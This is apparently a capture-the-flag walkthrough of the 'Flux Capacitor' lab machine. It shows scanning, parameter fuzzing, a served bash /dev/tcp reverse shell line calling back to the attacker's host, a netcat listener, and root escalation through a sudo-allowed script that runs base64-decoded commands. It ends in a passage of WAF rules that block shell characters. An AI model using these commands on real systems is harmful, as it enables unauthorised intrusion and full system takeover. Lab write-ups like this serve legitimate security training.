


#### Flux Capacitor

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Reverse Shell](#reverse-shell)
- [Privilege Escalation](#privilege-escalation)
- [Post Analysis](#post-analysis)

###### Attacker Info

```sh
root@kali:~/Desktop# ifconfig 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.8  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 1529  bytes 1753418 (1.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 851  bytes 116136 (113.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 1272 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1272 (1.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.16  netmask 255.255.254.0  destination 10.10.14.16
        inet6 fe80::30ad:65c6:b45d:559c  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::100e  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1  bytes 48 (48.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/Desktop# 
```

###### Nmap Scan

```sh
root@kali:~/flux-capacitor# nmap -sV -sC -oA flux.nmap 10.10.10.69
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-27 16:07 EDT
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.63% done; ETC: 16:07 (0:00:00 remaining)
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.10.69
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    SuperWAF
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
|     Date: Sun, 27 May 2018 20:07:45 GMT
|     Content-Type: text/html
|     Content-Length: 175
|     Connection: close
|     <html>
|     <head><title>404 Not Found</title></head>
|     <body bgcolor="white">
|     <center><h1>404 Not Found</h1></center>
|     <hr><center>openresty/1.13.6.1</center>
|     </body>
|     </html>
|   GetRequest:
|     HTTP/1.1 200 OK
|     Date: Sun, 27 May 2018 20:07:43 GMT
|     Content-Type: text/html
|     Content-Length: 395
|     Last-Modified: Tue, 05 Dec 2017 16:02:29 GMT
|     Connection: close
|     ETag: "5a26c315-18b"
|     Server: SuperWAF
|     Accept-Ranges: bytes
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>Keep Alive</title>
|     </head>
|     <body>
|     node1 alive
|     <!--
|     Please, add timestamp with something like:
|     <script> $.ajax({ type: "GET", url: '/sync' }); </script>
|     <hr/>
|     FluxCapacitor Inc. info@fluxcapacitor.htb - http://fluxcapacitor.htb<br>
|     <em><met><doc><brown>Roads? Where we're going, we don't need roads.</brown></doc></met></em>
|     </body>
|     </html>
|   HTTPOptions:
|     HTTP/1.1 405 Not Allowed
|     Date: Sun, 27 May 2018 20:07:44 GMT
|     Content-Type: text/html
|     Content-Length: 179
|     Connection: close
|     <html>
|     <head><title>405 Not Allowed</title></head>
|     <body bgcolor="white">
|     <center><h1>405 Not Allowed</h1></center>
|     <hr><center>openresty/1.13.6.1</center>
|     </body>
|     </html>
|   RTSPRequest:
|     <html>
|     <head><title>400 Bad Request</title></head>
|     <body bgcolor="white">
|     <center><h1>400 Bad Request</h1></center>
|     <hr><center>openresty/1.13.6.1</center>
|     </body>
|     </html>
|   X11Probe:
|     HTTP/1.1 400 Bad Request
|     Date: Sun, 27 May 2018 20:07:45 GMT
|     Content-Type: text/html
|     Content-Length: 179
|     Connection: close
|     <html>
|     <head><title>400 Bad Request</title></head>
|     <body bgcolor="white">
|     <center><h1>400 Bad Request</h1></center>
|     <hr><center>openresty/1.13.6.1</center>
|     </body>
|_    </html>
|_http-server-header: SuperWAF
|_http-title: Keep Alive
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.70%I=7%D=5/27%Time=5B0B1025%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,270,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2027\x20May\x20201
SF:8\x2020:07:43\x20GMT\r\nContent-Type:\x20text/html\r\nContent-Length:\x
SF:20395\r\nLast-Modified:\x20Tue,\x2005\x20Dec\x202017\x2016:02:29\x20GMT
SF:\r\nConnection:\x20close\r\nETag:\x20\"5a26c315-18b\"\r\nServer:\x20Sup
SF:erWAF\r\nAccept-Ranges:\x20bytes\r\n\r\n<!DOCTYPE\x20html>\n<html>\n<he
SF:ad>\n<title>Keep\x20Alive</title>\n</head>\n<body>\n\tOK:\x20node1\x20a
SF:live\n\t<!--\n\t\tPlease,\x20add\x20timestamp\x20with\x20something\x20l
SF:ike:\n\t\t<script>\x20\$\.ajax\({\x20type:\x20\"GET\",\x20url:\x20'/syn
SF:c'\x20}\);\x20</script>\n\t-->\n\t<hr/>\n\tFluxCapacitor\x20Inc\.\x20in
SF:fo@fluxcapacitor\.htb\x20-\x20http://fluxcapacitor\.htb<br>\n\t<em><met
SF:><doc><brown>Roads\?\x20Where\x20we're\x20going,\x20we\x20don't\x20need
SF:\x20roads\.</brown></doc></met></em>\n</body>\n</html>\n")%r(HTTPOption
SF:s,135,"HTTP/1\.1\x20405\x20Not\x20Allowed\r\nDate:\x20Sun,\x2027\x20May
SF:\x202018\x2020:07:44\x20GMT\r\nContent-Type:\x20text/html\r\nContent-Le
SF:ngth:\x20179\r\nConnection:\x20close\r\n\r\n<html>\r\n<head><title>405\
SF:x20Not\x20Allowed</title></head>\r\n<body\x20bgcolor=\"white\">\r\n<cen
SF:ter><h1>405\x20Not\x20Allowed</h1></center>\r\n<hr><center>openresty/1\
SF:.13\.6\.1</center>\r\n</body>\r\n</html>\r\n")%r(RTSPRequest,B3,"<html>
SF:\r\n<head><title>400\x20Bad\x20Request</title></head>\r\n<body\x20bgcol
SF:or=\"white\">\r\n<center><h1>400\x20Bad\x20Request</h1></center>\r\n<hr
SF:><center>openresty/1\.13\.6\.1</center>\r\n</body>\r\n</html>\r\n")%r(X
SF:11Probe,135,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Sun,\x2027\
SF:x20May\x202018\x2020:07:45\x20GMT\r\nContent-Type:\x20text/html\r\nCont
SF:ent-Length:\x20179\r\nConnection:\x20close\r\n\r\n<html>\r\n<head><titl
SF:e>400\x20Bad\x20Request</title></head>\r\n<body\x20bgcolor=\"white\">\r
SF:\n<center><h1>400\x20Bad\x20Request</h1></center>\r\n<hr><center>openre
SF:sty/1\.13\.6\.1</center>\r\n</body>\r\n</html>\r\n")%r(FourOhFourReques
SF:t,12F,"HTTP/1\.1\x20404\x20Not\x20Found\r\nDate:\x20Sun,\x2027\x20May\x
SF:202018\x2020:07:45\x20GMT\r\nContent-Type:\x20text/html\r\nContent-Leng
SF:th:\x20175\r\nConnection:\x20close\r\n\r\n<html>\r\n<head><title>404\x2
SF:0Not\x20Found</title></head>\r\n<body\x20bgcolor=\"white\">\r\n<center>
SF:<h1>404\x20Not\x20Found</h1></center>\r\n<hr><center>openresty/1\.13\.6
SF:\.1</center>\r\n</body>\r\n</html>\r\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.85 seconds
root@kali:~/flux-capacitor#
```

###### Web Enumeration

```
http://10.10.10.69/
http://10.10.10.69/sync
```


```sh
root@kali:~/flux-capacitor# dirb http://10.10.10.69

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun May 27 16:10:22 2018
URL_BASE: http://10.10.10.69/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.69/ ----
+ http://10.10.10.69/index.html (CODE:200|SIZE:395)

-----------------
END_TIME: Sun May 27 16:28:07 2018
DOWNLOADED: 4612 - FOUND: 1
root@kali:~/flux-capacitor#
```

```sh
root@kali:~# gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.69 -t 30

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.69/
[+] Threads      : 30
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 307,200,204,301,302
=====================================================
/sync (Status: 200)
/synctoy (Status: 200)
/synching (Status: 200)
/sync_scan (Status: 200)
/syncbackse (Status: 200)
/synch (Status: 200)
/sync4j (Status: 200)
/synchpst (Status: 200)
/syncapture (Status: 200)
/syncback (Status: 200)
/syncml (Status: 200)
=====================================================
root@kali:~#
```


```sh
root@kali:~/flux-capacitor# wfuzz -h

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.9 - The Web Fuzzer                         *
*                                                      *
* Version up to 1.4c coded by:                         *
* Christian Martorella (cmartorella@edge-security.com) *
* Carlos del ojo (deepbit@gmail.com)                   *
*                                                      *
* Version 1.4d to 2.2.9 coded by:                      *
* Xavier Mendez (xmendez@edge-security.com)            *
********************************************************

Usage:	wfuzz [options] -z payload,params <url>

	FUZZ, ..., FUZnZ  wherever you put these keywords wfuzz will replace them with the values of the specified payload.
	FUZZ{baseline_value} FUZZ will be replaced by baseline_value. It will be the first request performed and could be used as a base for filtering.


Options:
	-h      		    : This help
	--help			    : Advanced help
	--version		    : Wfuzz version details
	-e <type>		    : List of available encoders/payloads/iterators/printers/scripts

	-c			    : Output with colors
	-v			    : Verbose information.
	--interact		    : (beta) If selected,all key presses are captured. This allows you to interact with the program.

	-p addr			    : Use Proxy in format ip:port:type. Repeat option for using various proxies.
				      Where type could be SOCKS4,SOCKS5 or HTTP if omitted.

	-t N			    : Specify the number of concurrent connections (10 default)
	-s N			    : Specify time delay between requests (0 default)
	-R depth		    : Recursive path discovery being depth the maximum recursion level.
	-L, --follow        	    : Follow HTTP redirections

	-u url                      : Specify a URL for the request.
	-z payload		    : Specify a payload for each FUZZ keyword used in the form of type,parameters,encoder.
				      A list of encoders can be used, ie. md5-sha1. Encoders can be chained, ie. md5@sha1.
				      Encoders category can be used. ie. url
	                              Use help as a payload to show payload plugin's details (you can filter using --slice)
	-w wordlist		    : Specify a wordlist file (alias for -z file,wordlist).
	-V alltype		    : All parameters bruteforcing (allvars and allpost). No need for FUZZ keyword.
	-X method		    : Specify an HTTP method for the request, ie. HEAD or FUZZ

	-b cookie		    : Specify a cookie for the requests
	-d postdata 		    : Use post data (ex: "id=FUZZ&catalogue=1")
	-H header  		    : Use header (ex:"Cookie:id=1312321&user=FUZZ")
	--basic/ntlm/digest auth    : in format "user:pass" or "FUZZ:FUZZ" or "domain\FUZ2Z:FUZZ"

	--hc/hl/hw/hh N[,N]+	    : Hide responses with the specified code/lines/words/chars (Use BBB for taking values from baseline)
	--sc/sl/sw/sh N[,N]+	    : Show responses with the specified code/lines/words/chars (Use BBB for taking values from baseline)
	--ss/hs regex		    : Show/Hide responses with the specified regex within the content

root@kali:~/flux-capacitor#
```

[`burp-parameter-names.txt`](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt)

```sh
root@kali:~/flux-capacitor# wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/burp-parameter-names.txt
--2018-05-27 16:32:36--  https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/burp-parameter-names.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.0.133, 151.101.64.133, 151.101.128.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.0.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 19302 (19K) [text/plain]
Saving to: ‘burp-parameter-names.txt’

burp-parameter-names.txt                           100%[================================================================================================================>]  18.85K  6.49KB/s    in 2.9s

2018-05-27 16:32:55 (6.49 KB/s) - ‘burp-parameter-names.txt’ saved [19302/19302]

root@kali:~/flux-capacitor#
```

```sh
root@kali:~/flux-capacitor# wfuzz -c -w burp-parameter-names.txt -u http://10.10.10.69/sync?FUZZ=yesterday

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.9 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.69/sync?FUZZ=yesterday
Total requests: 2588

==================================================================
ID	Response   Lines      Word         Chars          Payload
==================================================================

000016:  C=200      2 L	       1 W	     19 Ch	  "token"
000017:  C=200      2 L	       1 W	     19 Ch	  "delete"
000018:  C=200      2 L	       1 W	     19 Ch	  "message"
000019:  C=200      2 L	       1 W	     19 Ch	  "t"
000020:  C=200      2 L	       1 W	     19 Ch	  "c"
000001:  C=200      2 L	       1 W	     19 Ch	  "id"
000002:  C=200      2 L	       1 W	     19 Ch	  "action"
000003:  C=200      2 L	       1 W	     19 Ch	  "page"
000004:  C=200      2 L	       1 W	     19 Ch	  "name"
000005:  C=200      2 L	       1 W	     19 Ch	  "password"
000021:  C=200      2 L	       1 W	     19 Ch	  "data"
000022:  C=200      2 L	       1 W	     19 Ch	  "mode"
000023:  C=200      2 L	       1 W	     19 Ch	  "order"
000024:  C=200      2 L	       1 W	     19 Ch	  "lang"
000025:  C=200      2 L	       1 W	     19 Ch	  "p"
000026:  C=200      2 L	       1 W	     19 Ch	  "key"
000027:  C=200      2 L	       1 W	     19 Ch	  "status"
000028:  C=200      2 L	       1 W	     19 Ch	  "start"
000029:  C=200      2 L	       1 W	     19 Ch	  "charset"
000078:  C=200      2 L	       1 W	     19 Ch	  "subject"
000077:  C=200      2 L	       1 W	     19 Ch	  "version"
000030:  C=200      2 L	       1 W	     19 Ch	  "description"
000031:  C=200      2 L	       1 W	     19 Ch	  "s"
000032:  C=200      2 L	       1 W	     19 Ch	  "post"
000033:  C=200      2 L	       1 W	     19 Ch	  "excerpt"
000034:  C=200      2 L	       1 W	     19 Ch	  "login"
000035:  C=200      2 L	       1 W	     19 Ch	  "search"
000036:  C=200      2 L	       1 W	     19 Ch	  "content"
000037:  C=200      2 L	       1 W	     19 Ch	  "comment"
000079:  C=200      2 L	       1 W	     19 Ch	  "m"
000083:  C=200      2 L	       1 W	     19 Ch	  "width"
000082:  C=200      2 L	       1 W	     19 Ch	  "confirm"
000038:  C=200      2 L	       1 W	     19 Ch	  "step"
000039:  C=200      2 L	       1 W	     19 Ch	  "ajax"
000084:  C=200      2 L	       1 W	     19 Ch	  "w"
000086:  C=200      2 L	       1 W	     19 Ch	  "size"
000085:  C=200      2 L	       1 W	     19 Ch	  "callback"
000040:  C=200      2 L	       1 W	     19 Ch	  "debug"
000041:  C=200      2 L	       1 W	     19 Ch	  "state"
000093:  C=200      2 L	       1 W	     19 Ch	  "tag"
000095:  C=200      2 L	       1 W	     19 Ch	  "target"
000094:  C=200      2 L	       1 W	     19 Ch	  "category"
000092:  C=200      2 L	       1 W	     19 Ch	  "uid"
000042:  C=200      2 L	       1 W	     19 Ch	  "query"
000043:  C=200      2 L	       1 W	     19 Ch	  "f"
000044:  C=200      2 L	       1 W	     19 Ch	  "error"
000097:  C=200      2 L	       1 W	     19 Ch	  "term"
000096:  C=200      2 L	       1 W	     19 Ch	  "ids"
000098:  C=200      2 L	       1 W	     19 Ch	  "new"
000108:  C=200      2 L	       1 W	     19 Ch	  "day"
000103:  C=200      2 L	       1 W	     19 Ch	  "msg"
000104:  C=200      2 L	       1 W	     19 Ch	  "to"
000106:  C=200      2 L	       1 W	     19 Ch	  "reset"
000105:  C=200      2 L	       1 W	     19 Ch	  "add"
000107:  C=200      2 L	       1 W	     19 Ch	  "d"
000100:  C=200      2 L	       1 W	     19 Ch	  "author"
000102:  C=200      2 L	       1 W	     19 Ch	  "cat"
000099:  C=200      2 L	       1 W	     19 Ch	  "locale"
000045:  C=200      2 L	       1 W	     19 Ch	  "save"
^C
Finishing pending requests...
root@kali:~/flux-capacitor#
```

```sh
root@kali:~/flux-capacitor# wfuzz -c -w burp-parameter-names.txt --hh=19 -u http://10.10.10.69/sync?FUZZ=yesterday

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.9 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.69/sync?FUZZ=yesterday
Total requests: 2588

==================================================================
ID	Response   Lines      Word         Chars          Payload
==================================================================

000753:  C=403      7 L	      10 W	    175 Ch	  "opt"

Total time: 51.09077
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 50.65493

root@kali:~/flux-capacitor#
```


```sh
root@kali:~/flux-capacitor# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:48:28.021637 IP 10.10.10.69 > kali: ICMP echo request, id 26377, seq 17, length 64
16:48:28.021723 IP kali > 10.10.10.69: ICMP echo reply, id 26377, seq 17, length 64
16:48:29.031176 IP 10.10.10.69 > kali: ICMP echo request, id 26377, seq 18, length 64
16:48:29.031261 IP kali > 10.10.10.69: ICMP echo reply, id 26377, seq 18, length 64
16:48:30.023981 IP 10.10.10.69 > kali: ICMP echo request, id 26377, seq 19, length 64
16:48:30.024065 IP kali > 10.10.10.69: ICMP echo reply, id 26377, seq 19, length 64
16:48:31.027213 IP 10.10.10.69 > kali: ICMP echo request, id 26377, seq 20, length 64
16:48:31.027297 IP kali > 10.10.10.69: ICMP echo reply, id 26377, seq 20, length 64
^C
8 packets captured
8 packets received by filter
0 packets dropped by kernel
root@kali:~/flux-capacitor#
```





```sh
root@kali:~/flux-capacitor# cat index.html
bash -i >& /dev/tcp/10.10.14.16/9001 0>&1
root@kali:~/flux-capacitor#
root@kali:~/flux-capacitor# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.69 - - [27/May/2018 18:31:20] "GET / HTTP/1.1" 200 -
10.10.10.69 - - [27/May/2018 18:31:44] "GET / HTTP/1.1" 200 -
```


###### Reverse Shell


```sh
root@kali:~/flux-capacitor# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.69] 38174
bash: cannot set terminal process group (595): Inappropriate ioctl for device
bash: no job control in this shell
nobody@fluxcapacitor:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
nobody@fluxcapacitor:/$ ^Z
[1]+  Stopped                 nc -nlvp 9001
root@kali:~/flux-capacitor# echo $TERM
xterm-256color
root@kali:~/flux-capacitor# stty raw -echo
root@kali:~/flux-capacitor# nc -nlvp 9001
                                         reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

nobody@fluxcapacitor:/$ stty rows 51 columns 200
```

[`Upgrading simple shells to fully interactive TTYs`](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

###### Privilege Escalation

```sh
nobody@fluxcapacitor:/$ sudo -l
Matching Defaults entries for nobody on fluxcapacitor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nobody may run the following commands on fluxcapacitor:
    (ALL) ALL
    (root) NOPASSWD: /home/themiddle/.monit
nobody@fluxcapacitor:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
_apt:x:106:65534::/nonexistent:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
themiddle:x:1000:1000:themiddle,,,:/home/themiddle:/bin/bash
sshd:x:108:65534::/run/sshd:/usr/sbin/nologin
nobody@fluxcapacitor:/$ cat /home/themiddle/.monit
#!/bin/bash

if [ "$1" == "cmd" ]; then
	echo "Trying to execute ${2}"
	CMD=$(echo -n ${2} | base64 -d)
	bash -c "$CMD"
fi
nobody@fluxcapacitor:/$
```

```sh
nobody@fluxcapacitor:/$ echo -n bash | base64
YmFzaA==
nobody@fluxcapacitor:/$
```

```sh
nobody@fluxcapacitor:/$ sudo -u root /home/themiddle/.monit cmd YmFzaA==
Trying to execute YmFzaA==
root@fluxcapacitor:/# id
uid=0(root) gid=0(root) groups=0(root)
root@fluxcapacitor:/#
```

```sh
root@fluxcapacitor:/# cd /root
root@fluxcapacitor:~# ls -lah
total 40K
drwx------  3 root root 4.0K Dec 24 17:18 .
drwxr-xr-x 22 root root 4.0K Dec  8 22:00 ..
-rw-------  1 root root    1 Dec 24 17:14 .bash_history
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4.0K Dec  4 15:59 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Dec  4 15:55 root.txt
-rw-------  1 root root  12K Dec 24 17:18 .viminfo
-rw-------  1 root root    0 Dec 24 17:18 .viminfo.tmp
root@fluxcapacitor:~# cat root.txt
bdc89b40eda244649072189a8438b30e
root@fluxcapacitor:~#
```

```sh
root@fluxcapacitor:~# cd /home/FluxCapacitorInc/
root@fluxcapacitor:/home/FluxCapacitorInc# ls -lah
total 12K
drwxr-xr-x 2 nobody root 4.0K Dec  5 14:58 .
drwxr-xr-x 4 root   root 4.0K Dec  5 14:58 ..
-rw-r--r-- 1 root   root   33 Dec  5 14:58 user.txt
root@fluxcapacitor:/home/FluxCapacitorInc# cat user.txt
b8b6d46c893d0cd00c0f0380036117bc
root@fluxcapacitor:/home/FluxCapacitorInc#
```

###### Post Analysis

```sh
root@fluxcapacitor:~# ps -ef | grep nginx
root       595     1  0 May21 ?        00:00:00 nginx: master process /usr/local/openresty/nginx/sbin/nginx -c /usr/local/openresty/nginx/conf/nginx.conf
nobody     596   595  0 May21 ?        00:00:29 nginx: worker process
nobody     597   595  0 May21 ?        00:00:45 nginx: worker process
root     26525 26508  0 00:45 pts/0    00:00:00 grep --color=auto nginx
root@fluxcapacitor:~#
```

```sh
root@fluxcapacitor:~# cat /usr/local/openresty/nginx/conf/nginx.conf

#user  nobody;
worker_processes  2;

#error_log  logs/error.log;
#error_log  logs/error.log  notice;
#error_log  logs/error.log  info;
error_log /dev/null;

pid        logs/nginx.pid;


events {
    worker_connections  1024;
}


http {
    include       mime.types;
    default_type  application/octet-stream;

    #log_format  main  '$remote_addr - $remote_user [$time_local] "$request" '
    #                  '$status $body_bytes_sent "$http_referer" '
    #                  '"$http_user_agent" "$http_x_forwarded_for"';

    #access_log  logs/access.log  main;
    access_log  /dev/null;

    sendfile        on;
    #tcp_nopush     on;

    #keepalive_timeout  0;
    keepalive_timeout  65;

    #gzip  on;

    server {
        listen       80;
        server_name  _;

        #charset koi8-r;

        #access_log  logs/host.access.log  main;

	more_clear_headers 'Server';
	add_header Server 'SuperWAF';

	modsecurity on;
        location /sync {
	    default_type 'text/plain';

	    modsecurity_rules '
		SecDefaultAction "phase:1,log,auditlog,deny,status:403"
		SecDefaultAction "phase:2,log,auditlog,deny,status:403"

		SecRule REQUEST_HEADERS:User-Agent "^(Mozilla|Opera)" "id:1,phase:2,t:trim,block"

		SecRuleEngine On
		SecRule ARGS "@rx [;\(\)\|\`\<\>\&\$\*]" "id:2,phase:2,t:trim,t:urlDecode,block"
		SecRule ARGS "@rx (user\.txt|root\.txt)" "id:3,phase:2,t:trim,t:urlDecode,block"
		SecRule ARGS "@rx (\/.+\s+.*\/)" "id:4,phase:2,t:trim,t:urlDecode,block"
		SecRule ARGS "@rx (\.\.)" "id:5,phase:2,t:trim,t:urlDecode,block"
		SecRule ARGS "@rx (\?s)" "id:6,phase:2,t:trim,t:urlDecode,block"

		SecRule ARGS:opt "@pmFromFile /usr/local/openresty/nginx/conf/unixcmd.txt" "id:99,phase:2,t:trim,t:urlDecode,block"
	    ';

	    content_by_lua_block {
		local opt = 'date'
		if ngx.var.arg_opt then
			opt = ngx.var.arg_opt
		end

